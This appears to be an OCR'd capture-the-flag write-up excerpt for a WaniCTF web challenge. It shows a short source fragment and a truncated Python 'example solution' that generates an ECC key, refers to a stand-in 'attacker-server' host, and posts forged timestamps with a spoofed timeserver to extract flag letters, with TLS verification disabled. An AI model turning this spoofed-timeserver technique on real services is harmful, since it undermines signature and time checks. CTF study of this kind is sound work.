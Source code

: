 ```py
    # Add one more day
    day = day + 1
    
```

And exmaple solution

```py
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import hashlib
import time
import requests
import re
import time

import urllib3
urllib3.disable_warnings()

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

print(pubkey)  # paste at http://attacker-server/pubkey

headers = {
  'Content-Type': 'application/json',
}

proxies = {
  "http": "0.0.0.0:8080",
  "https": "0.0.0.0:8080"
}

time.sleep(10)


def send_req(tstamp, signature):
  json_data = {
      'timestamp': tstamp,
      'signature': signature,
      'timeserver': 'happi.free.beeceptor.com',
  }
  response = requests.post(
      'https://web-one-day-one-letter-content-lz56g6.wanictf.org/',
      headers=headers,
      json=json_data,
      verify=False,
      proxies=proxies,
  )
  return response

def find_letter(html):
    pattern = r'FLAG{\?+([a-zA-Z]).*}'
    match = re.search(pattern, html) 
    
    if match:
        return match.group(1)
    else:
        return 1


if __name__ == "__main__":
    timestamp = int(time.time())
```